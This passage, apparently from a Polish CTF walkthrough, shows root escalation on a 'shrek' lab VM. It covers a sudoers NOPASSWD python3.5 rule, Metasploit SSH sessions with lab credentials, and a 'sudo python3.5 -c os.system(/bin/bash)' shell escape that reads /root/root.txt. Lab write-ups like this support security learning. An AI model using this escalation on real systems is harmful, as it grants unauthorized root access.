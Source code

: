 Wyświetli się obrazek (sam zobacz jaki :smiley: ). Jeszcze zostało wejść na **root**a. Mamy plik _Sudoers_, a tam jest taka ciekawa linijka:
{: .text-justify}
<div class="notice--primary" markdown="1">
Sudoers
<pre>
<p style="background-color:white;">
...
%shrek ALL = NOPASSWD:/usr/bin/python3.5
...
</p>
</pre>
</div>
Program python3.5 ma uprawnienia **root**a, ale tylko z grupy **shrek**. Trzeba to wykorzystać.
{: .text-justify}
```
-rwxr-xr-x 2 root root 4460304 Oct  9  2020 /usr/bin/python3.5
```
Najpierw należy się połączyć na sesję nr 10. Tam wpisujemy **shell**. Bez **Shell**a nie odpali się nam **Sudo**:
{: .text-justify}
```bash
  Id  Name  Type         Information                        Connection
  --  ----  ----         -----------                        ----------
  2         shell linux  SSH ftp:ftp (172.16.1.244:22)      172.16.1.10:41053 -> 172.16.1.244:22 (172.16.1.244)
  10        shell linux  SSH shrek:onion (172.16.1.244:22)  172.16.1.10:44865 -> 172.16.1.244:22 (172.16.1.244)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions 10
[*] Starting interaction with 10...
```
```bash
sudo: no tty present and no askpass program specified
shell

[*] Trying to find binary 'python' on the target machine
[-] python not found
[*] Trying to find binary 'python3' on the target machine
[*] Found python3 at /usr/bin/python3
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash

# root@ubuntu:~# sudo python3.5 -c 'import os; os.system("/bin/bash");'
# sudo python3.5 -c 'import os; os.system("/bin/bash");'
# root@ubuntu:~# id
# id
uid=0(root) gid=0(root) groups=0(root)
# root@ubuntu:~# cat /root/root.txt
```
Wyświetli się obrazek. Jednak wolałbym użyć dodatkowych narzędzi, ale chciałem pokazać siłę **Metasploit**a. Jeżeli się podobał wpis napisz na [kerszi@protonmail.com](mailto:kerszi@protonmail.com) lub skomentuj (jeżeli się da). 
{: .text-justify}
